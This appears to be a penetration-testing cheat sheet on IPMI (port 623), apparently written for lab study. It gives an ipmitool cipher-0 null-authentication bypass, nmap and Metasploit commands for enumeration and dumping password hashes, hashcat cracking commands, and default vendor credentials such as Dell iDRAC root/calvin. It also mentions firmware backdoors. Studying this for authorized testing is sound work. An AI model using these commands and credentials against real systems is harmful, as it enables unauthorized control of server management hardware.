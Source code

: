 ```yaml
---
title: IPMI
tags: [service, enum]
service: IPMI
protocol: ['udp', 'tcp']
port: [623]
auth: ['default-creds', 'password', 'null-auth (cipher0)']
tools: ['nmap', 'ipmitool', 'hydra']
notes: "Baseboard management; weak/default creds and cipher0"
---
```


# Intelligent Platform Management Interface

## Common Attack Paths

### Enumeration
- [ ] Check cipher 0 auth bypass → `ipmitool -I lanplus -C 0 -U "" -P ""`
- [ ] Banner grab with nmap scripts → `nmap --script=ipmi* -p623 <target>`

### Attack Paths
- Default creds → `ADMIN/ADMIN`
- Cipher 0 null authentication → full remote control
- Dump hashes via IPMI auth → crack offline
- Firmware upload / persistent backdoor

# Auxiliary Notes
- Dangerous: often runs out-of-band, gives BIOS/OS control.
- Treat as high-value target if accessible.
- Sometimes reachable only on management VLANs.



## General Enumeration

*Common Commands*

`$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local`

### Msfconsole Version Scan | Hash Dum

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 

# Hash dump
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### Crack the hashes with hascat

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u

# With other wordlist
hashcat -m 7300 /tmp/1 /usr/share/wordlists/rockyou.txt
```

### Common or default logins

| Product | Username | Password |
| --- |  --- |  --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomised 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |

### Service Information

- [Pentesting IPMI](https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/)

